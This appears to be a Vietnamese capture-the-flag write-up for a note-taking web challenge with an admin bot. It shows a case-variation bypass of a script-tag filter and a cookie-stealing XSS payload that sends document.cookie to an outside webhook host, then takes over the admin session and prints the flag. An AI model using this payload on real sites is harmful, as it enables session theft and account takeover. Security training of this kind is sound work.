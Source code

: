 # Solution

Thử thách cho ta hai link url, nhìn vào link thứ hai là một link bot và có mở port có lẽ là để tương tác với user thông qua trang web. Truy cập vào url đầu tiên ta sẽ thấy có một form **login** được action trên file **login.php**

![form_login](https://live.staticflickr.com/65535/52773944476_7b2b6ca504.jpg)

Sau đó ta tạo tài khoản để đi vào website

![register](https://live.staticflickr.com/65535/52774367195_55b82cdb07_z.jpg)

Sau khi đăng kí thành công, trang web điều hướng ta ngược trở lại form **login** và tiến hành đăng nhập bằng tài khoản mà ta vừa đăng kí. Sau khi đi vào website, trang web điều hướng đi vào trang home và xuất hiện một **creat note** và một trường cho phép nhập text vào(Có lẽ là thẻ **textarea**). Mình đoán ở đây là nơi có lỗ hổng, và có thể trang web có thể đang dính lỗi **XSS**, chúng ta sẽ cùng thử kiểm chứng.

![create_note](https://live.staticflickr.com/65535/52774221769_805c0a558d_h.jpg)

Đầu tiên mình thử một payload đơn giản và đưa vào trường nhập liệu rồi nhấn submit

```
    <script>alert("hi");</script>
```

![xss](https://live.staticflickr.com/65535/52774381900_9e82c2c93d_h.jpg)

Một dòng **Your note: Script tag not allowed** được trả về, có lẽ các thẻ script đã bị lọc hoặc loại bỏ. Mình sẽ bật **burpsuite** và bắt request để thấy rõ hơn điều này.

![xss](https://live.staticflickr.com/65535/52774251154_513752024a_n.jpg)

> Dòng trạng thái đầu tiên được bắt với chuỗi truy vấn đằng sau **?content** đã bị filter => **XSS**

Bây giờ ta sẽ thử cố bypass nó bằng cách sửa đổi một chút và đưa lại vào trường nhập liệu

```
    <SCript>alert("hi");</SCript>
```

![xss](https://live.staticflickr.com/65535/52773995381_2393a099df.jpg)

Một popup hiện ra với dòng alert **"hi"** => bypass thành công.

![xss](https://live.staticflickr.com/65535/52773470367_b665e8cda1_h.jpg)

Tiếp theo vẫn cách làm như vậy mình sẽ tạo ra một **webhook** để lấy **cookie** và gửi cho admin. Hiểu đơn giản thì **webhook** là một cơ chế cho phép ứng dụng gửi và nhận các thông báo tự động khi có sự kiện xảy ra trên một trang web hoặc ứng dụng khác. Ở đây mình sẽ dùng nó để lấy cookie admin thông qua một payload xss. Mình lấy payload này ở [payload\_\_xss_Silent One-Linear](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) và thay url mặc định bằng url webhook của mình.

```
    <SCript>var i=new Image;i.src="http://p59d71b4.requestrepo.com/?"+document.cookie;</SCript>
```

Sau khi submit, lấy link url được gửi request để cho chat bot chấp nhận và nhấn **Send**

![bot](https://live.staticflickr.com/65535/52774505683_e81d34ec9a_z.jpg)

Sau đó một response đã được gửi về url webhook của mình trong đó có chứa cookie

![cookie](https://live.staticflickr.com/65535/52774508778_efabb80ab5_h.jpg)

Lấy cookie vừa nhận được và gửi cho admin

![cookie](https://live.staticflickr.com/65535/52774027466_7825a3ee2a_c.jpg)

![cookie](https://live.staticflickr.com/65535/52773504147_10c2ab8921_z.jpg)

Trên màn hình xuất hiện dòng chữ **Hello admin**, nghĩa là lúc này quyền user của ta hiện tại đang là **admin**, có một tab **Admin Panel** điều hướng đến đó ta thu được flag

![flag](https://live.staticflickr.com/65535/52774300729_38b1f81688_h.jpg)

> Flag : **ATTT{3z_X2S_Fr0m_V@tv069_W1th_L0v3}**
